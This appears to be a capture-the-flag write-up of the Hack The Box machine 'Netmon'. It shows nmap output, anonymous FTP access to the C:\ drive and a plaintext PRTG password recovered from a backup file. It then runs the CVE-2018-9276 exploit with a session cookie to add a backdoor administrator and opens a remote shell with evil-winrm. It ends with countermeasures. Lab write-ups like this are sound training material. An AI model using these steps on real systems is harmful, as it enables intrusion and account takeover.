




# Netmon


#### Machine Release Date: March 2, 2019

## Active Ports

```bash
sudo nmap -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sC -sV -oA nmap/full-tcp-version 10.10.10.152
```

```none
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-08 17:17 EDT
Nmap scan report for 10.10.10.152
Host is up (0.035s latency).

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2m48s, deviation: 0s, median: 2m48s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-09-08T21:21:44
|_  start_date: 2020-09-08T21:17:27

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.15 seconds
```

## FTP Enumeration (Mounted C:\ Drive w/Anonymous Access)

From the nmap scan above, it looks like FTP was mounted to the C:\ drive:

```none
$ lftp 10.10.10.152
lftp 10.10.10.152:~> ls
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
lftp 10.10.10.152:/> cd Users
lftp 10.10.10.152:/Users> ls
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
lftp 10.10.10.152:/Users> cd Public
lftp 10.10.10.152:/Users/Public> ls
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
02-03-19  12:35AM                   33 user.txt
07-16-16  09:18AM       <DIR>          Videos
lftp 10.10.10.152:/Users/Public> cat user.txt
dd58ce67b49e15105e88096c8d9255a5
33 bytes transferred
```

As seen above, I was able to grab the `user.txt` flag from the `C:\Users\Public\user.txt` file.

## Exploitation (Sensitive Information Disclosure + CVE-2018-9276)

Navigating back to the web application, I was presented with `PRTG Network Monitor`.



At this point, I figured there might be a publicly avaialble exploit for this, so I searched [exploitdb](https://www.exploit-db.com/):



The `PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution` looked promising because it was written shortly after netmon was released. Also, looking at the bottom-left corner of `PRTG Network Monitor`, this exploit should also affect version `18.1.37.13946`:


Since the exploit required credentials, I tried the default username and password for `PRTG Network Monitor` `prtgadmin:prtgadmin` with no success. At this point, I figured I needed to go search for the database file where the application stores its credentials.

After some researching, I figured out that the credentials should be stored in the `C:\Users\All Users\Paessler\PRTG Network Monitor\PRTG Configuration.dat` files. Note that the `C:\Users\All Users` directory wasn't listed previously because it's a hidden directory on Windows.

```none
lftp 10.10.10.152:/Users> ls
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
lftp 10.10.10.152:/Users> ls -a
02-25-19  11:44PM       <DIR>          Administrator
07-16-16  09:28AM       <DIR>          All Users
02-03-19  08:05AM       <DIR>          Default
07-16-16  09:28AM       <DIR>          Default User
07-16-16  09:16AM                  174 desktop.ini
02-03-19  12:35AM       <DIR>          Public
```

I then mirrored the `C:\Users\All Users\Paessler\PRTG Network Monitor` directory to my Kali machine:

```none
lftp 10.10.10.152:/Users/All Users/Paessler> mirror "PRTG Network Monitor"
```

Then, I recursively searched for some passwords in all directories. I got too many results, so I figured I would try searching for the `prtgadmin` keyword which might bring me closer to finding some credentials:

```none
kali@kali:~/htb/boxes/netmon/ftp/PRTG Network Monitor$ grep -R prtgadmin *
Logs (Web Server)/prtg20200908.log:#3564031 2020-09-08 19:59:24 10.10.14.24 "anonymous-prtgadmin-login_failed" 10.10.10.152 80 POST /public/checklogin.htm username=prtgadmin&password=*** 200 "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
Logs (Web Server)/prtg20200908.log:#336079 2020-09-08 20:05:36 10.10.14.24 "anonymous-prtgadmin-login_failed" 10.10.10.152 80 POST /public/checklogin.htm username=prtgadmin&password=*** 200 "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
PRTG Configuration.dat:                  prtgadmin
PRTG Configuration.old:                  prtgadmin
PRTG Configuration.old.bak:           <!-- User: prtgadmin -->
PRTG Configuration.old.bak:                  prtgadmin
```

The `PRTG Configuration.old.bak` file looked incredibly suspicious since I noticed the XML comment as well as the `.bak` extension which is normally something that humans write. Looking closer at `PRTG Configuration.old.bak`, I found a plaintext password the system administrator must have left behind as a reminder since normally, the passwords in the `PRTG Configuration.dat` file are hashed.

```none
kali@kali:~/htb/boxes/netmon/ftp/PRTG Network Monitor$ grep -C 2 '<!-- User: prtgadmin -->' 'PRTG Configuration.old.bak'
            </dbcredentials>
            <dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
```

At this point, I found something that looked like a password a systems adminstrator would use: `PrTg@dmin2018`. I tried logging into the `PRTG Network Monitor` application with `prtgadmin:PrTg@dmin2018` with no success. At this point, I tried logging in via WinRM as the Administrator with the same password, but had no luck there either.

Looking carefully at the password, I noticed it ended in `2018`. This box was released in 2019 and IT generally has policies where everyone must change their password every so often. I figured I should try some basic permutations of PrTg@dmin2018 just as though I were a user that had to abide by a yearly password changing policy, so I tried the password `PrTg@dmin2019` and was able to access the `PRTG Network Monitor` admin panel:



Excellent! Now, I just needed to get my cookie and pass it to the exploit. I opened up my browser's web inspector to view the cookies:



I then ran the following [exploit code](https://www.exploit-db.com/exploits/46527) and passed my cookie to add a backdoor administrator user to the system:

```none
$ ./cve-2018-9276.sh -u http://10.10.10.152 -c "_ga=GA1.4.1634127558.1599608581; _gid=GA1.4.950774786.1599608581; OCTOPUS1813713946=ezc4QjgzQkM2LUZE
QkItNDE2Qy1CQTZFLUQ3OTU3QzRDN0JGQ30%3D; _gat=1"

[+]#########################################################################[+]
[*] Authenticated PRTG network Monitor remote code execution                [*]
[+]#########################################################################[+]
[*] Date: 11/03/2019                                                        [*]
[+]#########################################################################[+]
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*]
[+]#########################################################################[+]
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*]
[*] Version: 18.2.38                                                        [*]
[*] CVE: CVE-2018-9276                                                      [*]
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*]
[+]#########################################################################[+]

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'

[+]#########################################################################[+]

 [*] file created
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st'
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

Since the host had WinRM enabled and the `pentest` user should be an administrator, I should be able to WinRM into the host to get an interactive PowerShell session. I used [evil-winrm](https://github.com/Hackplayers/evil-winrm) to do this:

```none
$ ~/tools/evil-winrm/evil-winrm.rb -u pentest -p P3nT3st! -i 10.10.10.152

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\pentest\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
netmon\pentest S-1-5-21-2105491204-2789866987-2357151585-1000


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                                          Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```

As verified above, the `pentest` was indeed part of the `BUILTIN\Adminsitrators` group. From there, I was able to grab the `root.txt` flag:

```none
*Evil-WinRM* PS C:\Users\Administrator\Desktop> gc root.txt
3018977fb944bf1878f75b879fba67cc
```

## Countermeasures

* Don't expose the entire C:\ drive to anonymous users via FTP.
* Prefer using a dedicated shared directory on the system to host files over FTP rather than sharing the entire C:\ drive.
* Put access controls on the FTP server.
* Never leave sensitive information like plaintext passwords around on your servers.
* Update PRTG Network Monitor to the latest version currently available.
